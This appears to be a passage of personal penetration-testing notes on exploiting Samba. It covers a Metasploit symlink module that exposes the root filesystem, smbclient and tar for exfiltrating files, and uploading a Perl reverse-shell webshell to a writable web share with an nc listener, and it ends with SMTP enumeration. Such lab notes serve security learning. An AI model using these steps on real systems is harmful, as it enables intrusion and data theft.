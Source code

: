 This vulnerability allows an attacker to create a symbolic link to the root (/) partition from a wwritable share ultimately allowing read access to the entire file system outside of the share directory. We can use Metasploit for this.

we can confirm we have a writable share using smbmap&#x20;

`smbmap -H 192.168.0.178` - view all available writable shares.

{% code overflow="wrap" lineNumbers="true" %}
```bash
search samba_symlink
use 0
set RHOST
set SMBSHARE tmp
set SMBTARGET rootfs
run
```
{% endcode %}

* Next step is to use "smbclient" to access the share&#x20;
* `smbclient \\\\192.168.0.178\\tmp` - access the share, you can use "get" and "put" to download and upload files.&#x20;
* Another usefull cmd for data exfilteration when conducting post-exploitation tasks using "smbclient" is the "tar" cmd.&#x20;
* `tar c /tmp/etc_files.tar *` - tar the etc folder and save on our kali.

### <mark style="color:red;">Samba Remote Code Execution with Perl</mark>

In situations where we have a patched Samba server running with a writable share available to us, we can exploit that scenerio for RCE. Example; a share named "www" and port 80 open could be used to update web contents by admin.&#x20;

We connect to the share using smbclient, we find a "index.pl" file which indicates the server is likely configured to process Perl CGI programs. We donwload (get) and inspect the file. We can also type in our browser: `192.168.0.178/index.pl` - and it is executed successfully. We've confirmed that the "www" share onthe Samba server is most likely used to server the "index.pl" script and is the actual web root for the web server.

We will be using the imbuilt perl webshell reverse shell in kali, "/usr/share/webshells/perl/ . We will do some modifications before using it. Modify the ip and port options we are going to be using for a netcat listener to accept the connection. After that, upload it back to the share. Setup "nc" listener,&#x20;

`nc -nvlp 1234` . Now access the perl script page from the browser and Boom! we get a shell.



### <mark style="color:red;">SMTP (25)</mark>

`nmap --script smtp-commands 192.168.0.178 -p 25` - enumerate enabled verbs/features eg VRFY, ETRN etc..

### Linux Post Exploitation (enumeration) cheatsheet

#### Network Information enumeration
